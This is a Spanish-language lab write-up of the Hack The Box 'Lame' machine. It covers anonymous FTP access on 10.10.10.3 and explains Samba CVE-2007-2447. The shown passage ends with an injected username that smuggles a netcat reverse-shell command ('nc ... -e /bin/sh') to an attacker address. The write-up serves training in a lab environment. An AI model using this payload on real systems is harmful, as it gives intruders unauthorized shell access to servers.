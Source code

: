 ![image.png](Lame%20by%20Zayrus%201e9cb9b1e60b80b29c45f839166a690a/image%202.png)

## ✅ Análisis de conexión FTP

### 🧾 Lo que ocurrió:

- Me logre conectar exitosamente al servicio FTP en `10.10.10.3` (puerto 21).
- Inicie sesión como `anonymous` sin contraseña real (lo permite porque está habilitado).
- Entre al sistema y navegaste al directorio `/`, pero no hay archivos listados.

## 🔍 ¿Qué significa “acceso anónimo”?

Cuando un servidor FTP permite **login con el usuario `anonymous`**, está aceptando conexiones **sin credenciales reales**, usualmente para compartir archivos públicamente. El comportamiento estándar es:

- Usuario: `anonymous`
- Password: cualquier cosa.

## Explotación Samba 3.0.20

## 🧠 ¿Qué es Samba?

Samba es un software que permite compartir archivos entre Linux y Windows usando el protocolo SMB. Por ejemplo, permite que una carpeta de Linux se vea como una unidad de red en una PC con Windows.

## 💥 ¿Qué es el CVE-2007-2447?

Es una vulnerabilidad en la opción llamada `username map script` de Samba.

Esta opción permite ejecutar un **script externo** cuando alguien intenta autenticarse, para traducir el nombre de usuario que llega.

### Buscando exploits con searchsploit

![image.png](Lame%20by%20Zayrus%201e9cb9b1e60b80b29c45f839166a690a/image%203.png)

### 🛠️ ¿Cómo funciona la vulnerabilidad?

- Samba tiene una opción mal configurada por defecto:

```python
username map script = /some/script %u
```

- %u es reemplazado por el nombre de usuario que el cliente intenta usar.
- Pero Samba no filtra caracteres especiales como ;, &&, o | en el nombre del usuario.
- Entonces, si tú te conectas y pones como usuario algo como:

```python
; nc 10.10.14.2 4444 -e /bin/sh ;
```
